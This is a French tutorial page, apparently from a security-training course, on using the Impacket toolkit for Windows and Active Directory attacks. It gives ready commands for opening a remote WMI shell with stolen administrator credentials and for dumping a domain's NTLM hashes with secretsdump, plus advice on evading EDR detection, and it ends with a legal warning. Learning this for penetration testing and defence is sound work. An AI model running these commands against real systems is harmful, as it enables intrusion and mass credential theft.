

# Impacket — Les Outils d'Horloger

<div
  class="omny-meta"
  data-level="🔴 Expert"
  data-version="0.10+"
  data-time="~35 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — L'Équipement du Serrurier"
    Si *CrackMapExec* est un robot qui teste une clé sur 500 portes automatiquement pour vous dire laquelle s'ouvre, **Impacket** est la trousse à outils chirurgicale du vrai serrurier.
    C'est une boîte contenant des rossignols spécifiques, des stéthoscopes et des limes. Il ne fait rien "en masse". Vous devez vous tenir devant une porte bien précise et utiliser le bon script Python pour crocheter précisément le mécanisme Kerberos ou démonter les gonds du protocole SMB.

Développée par Fortra (anciennement SecureAuth), **Impacket** est une bibliothèque Python contenant des dizaines de scripts. Ce sont les briques fondamentales du piratage Windows moderne. Là où les autres outils "enveloppent" ces scripts pour les rendre automatiques, apprendre à utiliser Impacket manuellement permet de comprendre la cryptographie des réseaux d'entreprise (Tickets Kerberos, NTLM, RPC).

<br>

---

## Fonctionnement & Architecture (Kerberoasting)

L'un des modules les plus célèbres d'Impacket (`GetUserSPNs.py`) exploite le cœur de la sécurité d'Active Directory : le protocole Kerberos (L'attaque de Kerberoasting).



<br>

---

## Cas d'usage & Complémentarité

Les scripts Impacket sont classés par famille d'exploitation :

1. **La Famille Exécution (`psexec.py`, `wmiexec.py`, `smbexec.py`)** : Obtenir un Shell interactif (une console Windows) sur une machine distante dont on a volé les identifiants, sans que l'antivirus ne bloque l'accès classique.
2. **La Famille Kerberos (`GetNPUsers.py`, `GetUserSPNs.py`)** : Voler des tickets cryptographiques sur l'Active Directory pour les casser hors ligne et récupérer des mots de passe sans jamais déclencher d'alerte de connexion échouée.
3. **La Famille Extraction (`secretsdump.py`)** : Extraire en direct les milliers de mots de passe d'une entreprise (Attaque DCSync) une fois les droits d'Administrateur du Domaine obtenus.

<br>

---

## Les Scripts Principaux (Les Incontournables)

Chaque script a un nom très explicite qui termine par `.py`.

| Script Python | Famille | Description approfondie |
| :--- | :--- | :--- |
| `psexec.py` | **Shell** | Crée un service Windows sur la machine distante et renvoie une console "Système" totale (Le niveau de privilège le plus haut, au-dessus de l'Administrateur). *Très détectable.* |
| `wmiexec.py` | **Shell (Furtif)** | Au lieu de créer un service (ce que l'antivirus voit), il utilise WMI pour envoyer des commandes silencieusement et lire le résultat dans un fichier texte caché. |
| `secretsdump.py` | **Extraction** | Lit la mémoire distante (SAM/LSA/NTDS) et recrache tous les hachages NTLM. Utilisé pour "Pass-the-Hash" ou valider la fin d'une intrusion. |
| `ntlmrelayx.py` | **Relais (MITM)** | Associé à *Responder*, il prend l'empreinte de la victime interceptée sur le réseau et la relaye au serveur cible pour rentrer sans craquer de mot de passe. |

<br>

---

## Installation & Configuration

Impacket est préinstallé sur Kali Linux (Les scripts n'ont pas l'extension `.py` quand ils sont lancés globalement sous Kali, par exemple on tape `impacket-psexec` au lieu de `psexec.py`).

```bash title="Installation standard ou Python"
# Sur Kali (Outils globaux)
sudo apt update && sudo apt install impacket-scripts

# Installation Python pure via pip
python3 -m pip install impacket
```

<br>

---

## Le Workflow Idéal (L'Obtention d'un Shell WMI)

Vous avez volé un mot de passe ou un Hash (grâce à *Responder* ou *CrackMapExec*) et vous savez que le compte `Administrateur` est valide sur le serveur de la comptabilité (`10.0.0.8`). Vous voulez une console sur ce serveur.

### 1. La Connexion Silencieuse
Plutôt que d'utiliser le Remote Desktop (RDP) qui affiche une fenêtre visible par l'utilisateur du serveur, on utilise une console WMI (Windows Management Instrumentation) en ligne de commande.

```bash title="Création du Reverse Shell furtif"
# Syntaxe: domaine/utilisateur:mot_de_passe@IP_Cible
impacket-wmiexec CORP.LOCAL/Administrateur:SuperSecret123@10.0.0.8
```

### 2. Interactions sur la Machine
Vous obtenez immédiatement un prompt à l'écran, vous êtes "à l'intérieur" du serveur comptabilité.
```cmd title="Terminal WMI"
C:\> whoami
corp\administrateur

C:\> ipconfig
# Affiche la configuration réseau
```

### 3. Le Pillage (DCSync / SAM)
Si ce serveur est le chef du réseau (Le Contrôleur de Domaine), on utilise un autre script Impacket pour clore la mission en téléchargeant tous les secrets de tous les employés.
```bash title="Extraction totale (Nécessite les droits Domain Admin)"
impacket-secretsdump CORP.LOCAL/Administrateur:SuperSecret123@10.0.0.8
```
*Le script recrachera les hash `Prénom.Nom:HashNTLM` de toute la société.*

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication métier |
|---|---|---|
| ✅ **À FAIRE** | **Préférer `wmiexec` et `smbexec` à `psexec`** | `psexec.py` charge un fichier exécutable binaire sur le disque de la victime (`C:\Windows\PSEXESVC.exe`). Les EDR modernes (CrowdStrike, Defender for Endpoint) tuent ce fichier instantanément. `wmiexec.py` "vit en mémoire" (Fileless), il est beaucoup plus discret. |
| ❌ **À NE PAS FAIRE** | **Oublier les guillemets dans les mots de passe** | Les mots de passe contenant des caractères spéciaux comme `!` ou `$` interagissent mal avec Bash sous Linux. Utilisez systématiquement des guillemets simples `'MonMotDePasse!$'` lors de l'appel aux scripts Impacket. |

<br>

---

## Avertissement Légal & Éthique

!!! danger "Exécution de Code et Extraction de Secrets"
    L'utilisation d'outils comme `wmiexec` ou `secretsdump` nous fait franchir la dernière étape de l'attaque informatique.
    
    1. Obtenir un Shell à distance sur une machine est la définition technique de l'**Introduction frauduleuse dans un système** (Article 323-1 du Code pénal).
    2. Télécharger la base NTDS.dit (l'annuaire des mots de passe via secretsdump) constitue un vol massif de données d'identification, aggravant les peines encourues (Vol de données, atteinte à l'intégrité).
    3. Toute opération post-exploitation laisse des traces dans l'Observateur d'Évènements Windows (Event Viewer : 4624 Logon, 4672 Special Privileges).

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Si vous regardez des professionnels de la cybersécurité (HackTheBox, OSCP, Red Team), ils vivent à 90 % dans le dossier des scripts Impacket. C'est l'essence même du piratage Windows. Maîtriser comment construire des tickets Kerberos à la main ou comment manipuler le MSRPC via Python est ce qui sépare un "Script Kiddie" d'un véritable ingénieur en sécurité offensive.

> L'ingénierie c'est bien, mais si l'entreprise possède 10 000 ordinateurs et 50 000 utilisateurs, comment trouver LE chemin pour aller de la secrétaire jusqu'à l'administrateur sans essayer les scripts Impacket au hasard ? Il vous faut la carte au trésor : **[BloodHound →](./bloodhound.md)**.


